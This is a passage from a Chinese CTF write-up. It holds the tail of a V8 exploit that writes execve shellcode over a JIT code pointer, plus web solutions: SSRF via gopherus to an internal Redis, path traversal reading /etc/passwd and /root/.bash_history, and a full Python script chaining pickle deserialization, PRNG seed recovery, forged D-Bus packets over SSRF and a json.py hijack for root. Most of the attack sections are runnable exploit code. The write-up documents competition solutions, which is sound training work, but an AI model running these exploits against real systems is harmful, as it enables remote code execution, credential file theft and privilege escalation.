print("[*] boxed_elements: " + hex(boxed_elements));

// % SystemBreak();

print("[*] set fake array length: " + c.length);
// print("[*] boxed_elements: " + hex(boxed_elements));

function addrof(obj) {
    boxed[0] = obj;
    result = arb_read32(boxed_elements + 0x8n);
    return BigInt(result) + js_heap - 1n;
}

// boxed_elements = arb_read32(boxed_arr_addr + 0x8n) - 1;
// boxed_elements = BigInt(boxed_elements) + js_heap;
// print("[*] boxed_elements: " + hex(boxed_elements));

addrof_foo = addrof(foo);
print("[*] addrof foo: " + hex(addrof_foo));
foo_code = arb_read32(addrof_foo + 0xcn);
foo_code = BigInt(foo_code) + js_heap - 1n;
print("[*] foo code: " + hex(foo_code));
rwx_addr = arb_read32(foo_code + 0x14n);
rwx_addr = BigInt(rwx_addr) + (BigInt(arb_read32(foo_code+0x18n)) << 32n);
print("[*] rwx addr: " + hex(rwx_addr));
// rwx_addr += 0x51n;
jmp_addr = rwx_addr + 0x66n;
// % DebugPrint(foo);
// % SystemBreak();
// foo();

var shellcode = [
    0x6e69622fb848686an,
    0xe7894850732f2f2fn,
    0x2434810101697268n,
    0x6a56f63101010101n,
    0x894856e601485e08n,
    0x050f583b6ad231e6n
];

arb_write32(foo_code + 0x14n, Number(jmp_addr & 0xffffffffn));
arb_write32(foo_code + 0x18n, Number(jmp_addr >> 32n));

foo();
```

# Web

## tantantan

file 协议读文件。



index.php

```PHP
<?php
header("Content-Security-Policy: default-src 'none';");
echo "Content-Security-Policy: default-src 'none';<br>";
echo "?xss=?";
if (isset($_GET["xss"])){
     echo $_GET["xss"];
     echo '<script>window.location.href = "./aaabbb.php";</script>';
}
else {
    echo "速度来跳舞";
}
?> 
```

aaabbb.php

```PHP
<?php
error_reporting(0);
// error_reporting(E_ALL & ~E_WARNING);
// highlight_file(__FILE__);
$url=$_POST['data'];
$ch=curl_init($url);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$result=curl_exec($ch);
curl_close($ch);
echo ($result);
?> 
```

测了一下内网有个 6379 的 redis。



gopherus 一把梭。



## easyweb









## where

http://web-4ed9765bdd.challenge.xctf.org.cn/look?file=/etc/passwd

http://web-4ed9765bdd.challenge.xctf.org.cn/look?file=/app/app.py

猜 flag 位置？

```Python
from flask import Flask,Response, request

app = Flask(__name__)


@app.route('/', methods=['GET', 'POST'])
def index():
    return "flag被我藏起来了,/look一下file看看呢"
@app.route('/look', methods=['GET', 'POST'])
def readfile():
    if request.values.get('file'):
        file = request.values.get('file')
        f= open(file,encoding='utf-8')
        content=f.read() 
        f.close()
        if 'flag' in content:
            return  "打卡下班"+content
        else:
            return  "抓紧找，着急下班"+content
   
    return "找找看，我着急下班"

    

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=80)
```

读 /root/.bash_history

## v_You_a_shell

给了php源码，需要的是打 ssrf 到 本机 /app/app.py 的服务以及dbus 服务

ssrf发的dbus流量可以参考strace -e write=all dbus-send 然后搓DBUS包

任意文件读取去读源码

```HTTP
cmd=cat+/etc/passwd
```

/app/app.py 里面的 pickle.loads 是 rce 点

```Python
@dbus.service.method("ctf.syncServer", in_signature='ss', out_signature='s')
    def backdoor(self, username, key):
        global secretKey
        if username in loginList and key == secretKey:
            data = pickle.loads(base64.b64decode(loginList[username]))
            return str(data)
        return "keyError"
```

/app/flagService.py 是root权限的dbus，可以辅助LPE

```Python
@dbus.service.method("ctf.flag.service", in_signature='s', out_signature='s')
    def getTime(self, format):
        return __import__("json").dumps({"code": 1, "time": time.strftime(format, time.localtime())})
```

整体思路是：

- 先登陆成功一次，写进去反序列化数据。
- 然后登陆失败去触发重置 secret，跑 seed。
- ssrf dbus 带 key 去打ctf.syncServer，触发反序列化拿到RCE
- 然后再打ctf.flag.service来LPE

RCE完整脚本：

```Java
import pickle
import base64
import hashlib
import random
from datetime import datetime

import pytz
import requests


class A(object):
    def __reduce__(self):
        return (eval, ("__import__('os').system('whoami > /tmp/1')",))

a = pickle.dumps(A())
print(base64.b64encode(a).decode())

burp0_url = "http://web-4a21d0c15d.challenge.xctf.org.cn/"

burp0_headers = {"Cache-Control": "max-age=0", "Upgrade-Insecure-Requests": "1",
                 "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36",
                 "Origin": "null", "Content-Type": "application/x-www-form-urlencoded",
                 "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
                 "Accept-Encoding": "gzip, deflate, br", "Accept-Language": "zh-CN,zh;q=0.9,en;q=0.8",
                 "Connection": "close"}


def add_percent_every_two_chars(s):
    # 初始化一个空字符串用于存储结果
    result = ''
    # 遍历字符串，步长为2
    for i in range(0, len(s), 2):
        # 每两个字符前面加上一个 '%'
        result += '%' + s[i:i + 2]
    return result


# 获取 time
def get_unix_time(session):
    burp0_data = {"cmd": "cat /proc/driver/rtc"}
    r = session.post(burp0_url, headers=burp0_headers, data=burp0_data)

    return r.text


# 获取 code
def get_code(session):
    burp0_data = {"cmd": "curl", "method": "GET", "url": "http://127.0.0.1:8080/getCode"}
    r = session.post(burp0_url, headers=burp0_headers, data=burp0_data)
    c2 = ""
    for line in r.text.split("\n"):
        if "Set-Cookie: session=" in line:
            c2 = line.split("Set-Cookie: session=")[1].split(";")[0]
    c1 = r.text.split("\n")[-1]
    return c1, c2


# 触发 dbus 反序列化
def unix_dbus(session, secretKey):
    secretKey = secretKey.encode().hex()
    uid = "3333"
    # 远程是 33，
    uid = uid.encode().hex()
    print(add_percent_every_two_chars(uid))
    print(add_percent_every_two_chars(secretKey))
    unix_sockets = f'''00415554482045585445524e414c20{uid}0d0a
4e45474f54494154455f554e49585f46440d0a
424547494e0d0a
6c01000100000000010000006e00000001016f00150000002f6f72672f667265656465736b746f702f4442757300000006017300140000006f72672e667265656465736b746f702e444275730000000002017300140000006f72672e667265656465736b746f702e4442757300000000030173000500000048656c6c6f000000
6c01000131000000020000006800000001016f000f0000002f6374662f73796e6353657276657200020173000e0000006374662e73796e63536572766572000003017300080000006261636b646f6f720000000000000000060173000e0000006374662e73796e63536572766572000008016700027373000500000061646d696e00000020000000{secretKey}00'''
    unix_sockets = unix_sockets.replace("\n", "")
    print(unix_sockets)
    unix_sockets = bytes.fromhex(unix_sockets)
    burp0_data = {"cmd": "curl",
                  "method": unix_sockets,
                  "data": "",
                  "url": "http://127.0.0.1:8080/getCode",
                  "tcpstr": "unix:///var/run/dbus/system_bus_socket"}
    r = session.post(burp0_url, headers=burp0_headers, data=burp0_data)
    print(r.text)
    return r


# 登陆并重置 secret
def login(session, code, cookie_token, pickle_data):
    login_text = f"""GET /login?username=admin&password=123456&code={code} HTTP/1.1
Host: 127.0.0.1:8080
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: session={cookie_token}; data={pickle_data}
Connection: close


GET"""
    # 注入反序列化exp
    burp0_headers = {"Cache-Control": "max-age=0", "Upgrade-Insecure-Requests": "1",
                     "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36",
                     "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
                     "Accept-Encoding": "gzip, deflate, br", "Accept-Language": "zh-CN,zh;q=0.9,en;q=0.8",
                     "Connection": "close"}

    burp0_data = {"cmd": "curl",
                  "method": login_text,
                  "url": "127.0.0.1:8080"}

    r = session.post(burp0_url, headers=burp0_headers, data=burp0_data)
    print(r)
    # 错误触发重置 secret

    burp0_data = {"cmd": "curl",
                  "method": login_text.replace("123456", "123455"),
                  "url": "127.0.0.1:8080"}
    for i in range(6):
        r = session.post(burp0_url, headers=burp0_headers, data=burp0_data)

    return r


def read_rtc_time(session):
    lines = get_unix_time(session).splitlines()
    rtc_time = None
    rtc_date = None

    for line in lines:
        if line.startswith('rtc_time'):
            rtc_time = line.split(':', 1)[1].strip()
        elif line.startswith('rtc_date'):
            rtc_date = line.split(':', 1)[1].strip()

    if rtc_time and rtc_date:
        rtc_datetime_str = f"{rtc_date} {rtc_time}"
        try:
            rtc_datetime = datetime.strptime(rtc_datetime_str, "%Y-%m-%d %H:%M:%S")
            return rtc_datetime
        except ValueError as e:
            raise ValueError(f"Error parsing datetime: {e}")
    else:
        raise ValueError("Could not read RTC time and date from /proc/driver/rtc")


def get_unix_timestamp_from_rtc():
    rtc_datetime = read_rtc_time(session)
    # Assume RTC time is in UTC
    rtc_datetime_utc = rtc_datetime.replace(tzinfo=pytz.utc)

    utc0_timestamp = int(rtc_datetime.timestamp())
    # Convert to the desired timezone (UTC+8)
    target_timezone = pytz.timezone('Europe/London')
    rtc_datetime_target = rtc_datetime_utc.astimezone(target_timezone)

    # Convert datetime object to Unix timestamp
    unix_timestamp = int(rtc_datetime_target.timestamp())
    return unix_timestamp, utc0_timestamp


try:

    import time

    session = requests.session()

    system_time = time.time()
    print(f"time.time: {int(system_time)}")

    current_unix_timestamp, utc0_timestamp = get_unix_timestamp_from_rtc()

    print(f"RTC utc+8: {current_unix_timestamp}")

    code_text, cookie_token = get_code(session)

    print(f"code_text: {code_text}")
    print(f"cookie_token: {cookie_token}")

    pickle_data = base64.b64encode(a).decode()
    r = login(session, code_text, cookie_token, pickle_data)
    print(r)
    ssssss = int(current_unix_timestamp * 10) - 100
    for i in range(200):
        s = ssssss + i
        random.seed(s)
        code1 = hashlib.md5(random.randbytes(16)).hexdigest()[0:4]
        if code1 in code_text:
            code2 = hashlib.md5(random.randbytes(16)).hexdigest()[0:4]
            secretKey = hashlib.md5(random.randbytes(16)).hexdigest()
            print(code1, s)
            print(f"secretKey: {secretKey}")
            # 触发 dbus
            r = unix_dbus(session, secretKey)
            print(r)
            break
except ValueError as e:
    print(e)

r = requests.post('http://web-4a21d0c15d.challenge.xctf.org.cn/', data={'cmd': 'cat /tmp/1'})
print(r.text)
```

提权，/app 可写，写json.py进去 然后让跑在root下的ctf.flag.service执行一下

这里直接cmod 777 flag了

```Java
# echo aW1wb3J0IG9zCgpvcy5zeXN0ZW0oImNobW9kIDc3NyAvZmxhZyIp | base64 -d > /app/json.py ; cat /app/json.py > /tmp/1
# dbus-send --system --print-reply --dest=ctf.flag.service /ctf/flag/service ctf.flag.service.getTime string:"1"
```